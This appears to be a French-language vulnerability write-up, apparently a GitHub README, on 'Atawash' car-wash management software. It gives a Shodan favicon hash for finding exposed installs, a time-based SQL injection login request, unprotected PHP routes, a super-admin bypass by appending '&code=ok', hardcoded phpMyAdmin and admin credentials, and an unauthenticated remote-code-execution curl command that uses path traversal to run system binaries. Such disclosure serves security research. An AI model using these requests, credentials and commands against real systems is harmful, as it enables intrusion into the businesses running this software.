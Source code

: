 ![autowash-5th-element](https://github.com/Ug0Security/Atawash/assets/28728543/1dd4431c-3469-4514-9398-7ffa71aa71ef)

Je rentre de vacances et j'ai pas de mission..

shodan : http.favicon.hash:-991649870

--- SQLi sur le login mais time based on se fait chier ---


POST /index_connexion_atawa.php?resolution=1920x1080 HTTP/1.1
Host: xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: xx
Connection: close
Cookie: PHPSESSID=ww
Upgrade-Insecure-Requests: 1

login=test&pwd=test



--- Vlà les manques de controle d'accès sur les fichiers .php dont route sont décritent dans les fichiers js--- 



/choix/choix_version_svg.php?resolution=1920x1080

/config/configubuntu.php?resolution=1920x1080
...


--- Bypass auth super-admin (alors celle la..) ---



/systeme/super_administrateur.php?resolution=1920x1080 (oh lala besoin d'un mdp..)

/systeme/super_administrateur.php?resolution=1920x1080&code=ok (ah non c'est bon)


--- Hardcoded creds ---


/phpmyadminatawa/index.php (MySQL_Atawa:Atawa&13)

/systeme/super_administrateur.php (33310 - hardcoded dans le js..)



--- UnAuth RCE (ayayay vie d'ma mèrrrrrr)---

---------------------------------------------------------------
curl -F "script_name=../../../../../../../../../usr/bin/id" http://url:port/systeme/get_monitor_script.php
---------------------------------------------------------------
